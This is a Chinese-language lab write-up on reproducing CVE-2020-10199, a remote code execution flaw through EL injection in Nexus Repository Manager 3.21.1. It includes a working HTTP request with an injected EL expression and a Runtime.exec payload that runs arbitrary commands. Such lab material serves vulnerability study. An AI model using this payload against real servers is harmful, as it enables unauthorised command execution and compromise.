

# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10199）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```



参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令。
